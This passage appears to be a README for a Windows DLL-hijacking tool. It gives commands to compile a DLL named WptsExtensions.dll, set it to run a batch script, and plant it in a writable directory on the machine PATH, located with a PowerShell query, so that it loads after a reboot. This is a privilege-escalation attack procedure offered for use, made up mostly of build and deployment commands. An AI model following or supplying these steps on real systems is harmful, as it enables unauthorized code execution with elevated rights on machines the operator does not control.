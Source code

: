 - Load x64 visual studio environnement variables:  
```
C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\VC\Auxiliary\Build\vcvars64.bat
```
  
- Go inside your source dir and run (BUILD MANUALLY to avoid unwanted dependencies):  
```
cl /LD /MT /EHa dllmain.cpp /Fe:WptsExtensions.dll
```
  
- Update bat script path:  
```
const TCHAR script[] = TEXT("C:\\Python27\\script.bat"):  
```
  
- Drop the DLL and script.bat in your writable directory (from the machine PATH)
```
powershell -Command "[System.Environment]::GetEnvironmentVariable('PATH','Machine')"
```
  
- Reboot